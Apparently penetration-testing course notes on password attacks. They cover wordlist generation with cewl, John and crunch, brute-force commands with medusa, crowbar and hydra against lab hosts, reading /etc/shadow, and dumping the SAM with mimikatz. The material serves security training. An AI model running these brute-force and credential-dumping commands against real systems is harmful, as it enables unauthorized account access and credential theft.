 ### Password attack

```
cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt


```

/etc/john/john.conf

locate the [List.Rules:Wordlist] segment where wordlist mutation rules are defined, and append a new rule. In this example, we will append the two-digit sequence of numbers from (double) zero to ninety-nine after each word in our wordlist.
We will begin this rule with the $ character, which tells John to append a character to the original word in our wordlist. Next, we specify the type of character we want to append, in our case we want any number between zero and nine ([0-9]). Finally, to append double-digits, we will simply repeat the $[0-9] sequence

```
kali@kali:~$ sudo nano /etc/john/john.conf ...
# Wordlist mode rules [List.Rules:Wordlist]
# Try words as they are
:
# Lowercase every pure alphanumeric word
-c >3 !?X l Q
# Capitalize every pure alphanumeric word
-c (?a >2 !?X c Q
# Lowercase and pluralize pure alphabetic words ...
# Try the second half of split passwords
-s x_
-s-c x_ M l Q
# Add two numbers to the end of each password $[0-9]$[0-9]
...
```

#### Run John

```
 john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
```

### Generate password

Password pattern: Abc$#123

```
crunch 8 8 -t ,@@^^%%%

```

Supplying characters to use:
```
crunch 4 6 0123456789ABCDEF -o crunch.txt
```

Specifying predefined character-sets

```
 crunch 4 6 -f /usr/share/crunch/charset.lst mixalpha -o crunch.txt
```

### HTTP htaccess attack with Medusa

```
sudo gunzip /usr/share/wordlists/rockyou.txt.gz

medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin

```

### RDP Protocol attack

```
sudo apt install crowbar

crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1

```

### SSH attack with THC-Hydra

```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1

``
### HTTP POST Attack with THC-Hydra

```
hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f

```
### Retrieving password hashes

```
hashid c43ee559d69bc7f691fe2fbfe8a5ef0a

hashid '$6$l5bL6XIASslBwwUD$bCxeTlbhTH76wE.bI66aMYSeDXKQ8s7JNFwa1s1KkTand6ZsqQKAF3G0tHD9bd59e 5NAz/s7DQcAojRTWNpZX0'
Analyzing '$6$l5bL6XIASslBwwUD$bCxeTlbhTH76wE.bI66aMYSeDXKQ8s7JNFwa1s1KkTand6ZsqQKAF3G0tHD9bd59e 5NAz/s7DQcAojRTWNpZX0'
[+] SHA-512 Crypt

```

```
sudo greo root /etc/shadow


```

#### Windows system - mimikatz

```
C:\Tools\password_attacks\mimikatz.exe
privilege::debug
token::elevate
lsadump::sam

```
